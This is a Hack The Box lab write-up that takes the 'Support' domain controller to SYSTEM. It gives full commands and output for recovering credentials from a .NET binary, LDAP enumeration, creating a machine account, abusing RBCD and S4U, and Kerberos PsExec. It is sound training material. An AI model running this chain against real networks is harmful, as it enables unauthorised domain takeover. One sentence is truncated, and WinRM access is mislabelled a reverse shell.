


# Support - Hack The Box Writeup


*An Active Directory machine covering exposed SMB files, recovered LDAP credentials, BloodHound permissions, and Kerberos delegation through RBCD.*

by: Brandon Chaney

## Overview

Support starts with an accessible SMB share containing a small .NET application, `UserInfo.exe`. Inspection of the program revealed credentials for an LDAP account, which tied to the `support` user and lead to obtaining a reverse shell through EvilWinRM.

After the foothold, BloodHound showed that `support` belonged to a group with `GenericAll` over the domain controller's computer object. I hadn't worked through this kind of computer takeover before, so I used this machine to understand how machine accounts, Resource-Based Constrained Delegation (RBCD), and Kerberos service tickets could lead to domain takeover.

## Enumeration & the SMB Share

I started enumeration by checking the services exposed by the domain controller. SMB (`445`), LDAP (`389`), Kerberos (`88`), and WinRM (`5985`) were all available, which made Active Directory enumeration the most plausible exploitation path.

```bash
nmap -Pn -sT -p 53,88,135,139,389,445,636,5985 10.129.133.80
```

The `support-tools` SMB share allowed anonymous access. I connected passwordless and found `UserInfo.exe.zip` among the available files.

```bash
smbclient //10.129.133.80/support-tools -N

# Inside smbclient:
ls
get UserInfo.exe.zip
```

After extracting the ZIP, I took a closer look at the executable. It was a .NET application that used an LDAP account to query the domain. Interestingly, its password wasn't stored as plain text, but the program contained everything needed to recover it.

## Recovering the LDAP Credentials

Inspecting the .NET code, I followed how the application handled its stored password. The value was Base64-encoded, then decoded with a repeating XOR key and an additional XOR operation using `0xDF` (223).

```bash
monodis UserInfo.exe > userinfo.il
grep -niE 'password|armando|ldstr' userinfo.il
```

To make sure I understood the process, I recreated the decoding in Python:

```python
import base64

encoded = '0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E'
key = b'armando'
data = base64.b64decode(encoded)

password = bytes(
    byte ^ key[i % len(key)] ^ 0xDF
    for i, byte in enumerate(data)
)

print(password.decode())
```

```text
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

This gave me the password for `support\ldap`. It wasn't an administrator account, but it was enough to query AD. I searched for the `support` user and found a password stored in the account's `info` attribute.

```bash
ldapsearch -x -H ldap://10.129.133.80 \
  -D 'support\ldap' -W \
  -b 'DC=support,DC=htb' \
  '(sAMAccountName=support)' cn info memberOf
```

```text
info: Ironside47pleasure40Watchful
```

I tried those credentials with Evil-WinRM and created a reverse shell as `support`.

```bash
evil-winrm -i 10.129.133.80 -u support -p 'Ironside47pleasure40Watchful'
```

At that point I had the user flag, but not administrative access.

## BloodHound: Finding the Privilege Escalation Path

I collected Active Directory relationships with BloodHound Python, imported the ZIP into BloodHound, and searched for the `support` account. The path to the domain controller was short:

- `SUPPORT@SUPPORT.HTB` is a member of **Shared Support Accounts**.
- **Shared Support Accounts** has **`GenericAll`** over `DC.SUPPORT.HTB`.

<p align="center">
  
  <br/>
  <em>Figure 1: The support user inherits GenericAll over the domain controller's computer object through group membership.</em>
</p>


I knew `GenericAll` meant broad control over the object, but I initially associated that sort of privilege with users. Here, the target was a **computer object**, `DC$`, suggesting an attack involving delegation.

## Machine Accounts & RBCD

Before creating anything, I checked the domain's `ms-DS-MachineAccountQuota` attribute. It determines how many machine accounts an ordinary domain user is allowed to create by default.

```powershell
([ADSI]"LDAP://DC=SUPPORT,DC=HTB")."ms-DS-MachineAccountQuota"
```

```text
10
```

The default AD value `10` suggested I could create a computer account of my own (the . **This alone doesn't grant administrator access.** The important combination was being able to create a controlled machine account *and* having `GenericAll` over `DC$`.

The first `impacket-addcomputer` attempts failed with SMB login errors. NetExec confirmed the credentials were valid, so the password wasn't the issue. I eventually got it working by specifying the domain controller hostname and separating the NetBIOS domain from the DNS domain name.

```text
# /etc/hosts
10.129.133.80 dc.support.htb support.htb
```

```bash
impacket-addcomputer \
  -method SAMR \
  -domain-netbios SUPPORT \
  -dc-host dc.support.htb \
  -dc-ip 10.129.133.80 \
  -computer-name 'ATTACKER$' \
  -computer-pass 'IAMEVIL!!!' \
  'support.htb/support:Ironside47pleasure40Watchful'
```

```text
[*] Successfully added machine account ATTACKER$ with password IAMEVIL!!!.
```

Next I used my `GenericAll` rights to edit `DC$`'s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. This is the setting used by **Resource-Based Constrained Delegation (RBCD)** to determine which accounts may act on behalf of other users when accessing the target service.

```bash
impacket-rbcd \
  -delegate-from 'ATTACKER$' \
  -delegate-to 'DC$' \
  -action write \
  -dc-ip 10.129.133.80 \
  'support.htb/support:Ironside47pleasure40Watchful'
```

```text
[*] Delegation rights modified successfully!
[*] ATTACKER$ can now impersonate users on DC$ via S4U2Proxy
```

I read the setting back to confirm it had actually changed:

```bash
impacket-rbcd \
  -delegate-to 'DC$' \
  -action read \
  -dc-ip 10.129.133.80 \
  'support.htb/support:Ironside47pleasure40Watchful'
```

```text
[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKER$    (S-1-5-21-1677581083-3380853377-188903654-6101)
```

## Getting an Administrator Service Ticket

With RBCD configured, I could use the controlled `ATTACKER$` account to request a service ticket while impersonating `Administrator`.

```bash
impacket-getST \
  -spn 'cifs/dc.support.htb' \
  -impersonate Administrator \
  -dc-ip 10.129.133.80 \
  'support.htb/ATTACKER$:IAMEVIL!!!'
```

```text
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

<p align="center">
  
  <br/>
  <em>Figure 2: ATTACKER$ authenticates to the KDC, uses S4U delegation to impersonate Administrator, and receives a CIFS ticket for the domain controller</em>
</p>

This is where I had to sort out the difference between a **TGT** and a **service ticket**:

- A **TGT** lets an authenticated identity request tickets for services.
- A **service ticket** is used to authenticate to a particular service. Mine was for `cifs/dc.support.htb`, which is associated with SMB.
- A **`.ccache` file** is the format storing the ticket. It isn't a separate kind of Kerberos ticket.

The ticket I obtained was **not Administrator's TGT** or password. It was an Administrator **CIFS service ticket**, produced through the delegation flow. That distinction explains why I could use it for SMB-based access rather than assuming it would work for every service.

I pointed the Kerberos-aware Impacket tools at the cache with the `KRB5CCNAME` environment variable:

```bash
export KRB5CCNAME="$HOME/Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache"
```

One related tool worth remembering is `ticketConverter.py`, which converts between Windows `.kirbi` and Linux `.ccache` ticket formats. Here I didn't need it because `impacket-getST` saved the ticket directly as `.ccache`.

## SYSTEM Access

The last step was to use the CIFS ticket with Impacket's PsExec implementation. I used `-k` for Kerberos authentication and `-no-pass` to use the cached ticket without supplying a password.

```bash
impacket-psexec -k -no-pass -dc-ip 10.129.133.80 \
  'support.htb/Administrator@dc.support.htb'
```

```text
[*] Found writable share ADMIN$
[*] Creating service ...
[*] Starting service ...

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
dc
```

I had SYSTEM access on the domain controller. I retrieved the root flag with the Windows `type` command:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

*Root flag omitted from this public writeup.*

## Key Findings

- The anonymously accessible `support-tools` share exposed a .NET executable with recoverable LDAP credentials.
- LDAP revealed the `support` user's password in an account attribute, leading to a WinRM foothold.
- BloodHound showed `support` inherited `GenericAll` over the domain controller's **computer object** through Shared Support Accounts.
- `ms-DS-MachineAccountQuota = 10` allowed a controlled computer account to be created; it was **not** a privilege escalation by itself.
- RBCD let `ATTACKER$` obtain an **Administrator CIFS service ticket**, not an Administrator TGT.
- `KRB5CCNAME` made the `.ccache` available to Impacket, and Kerberos-authenticated PsExec led to **NT AUTHORITY\SYSTEM**.
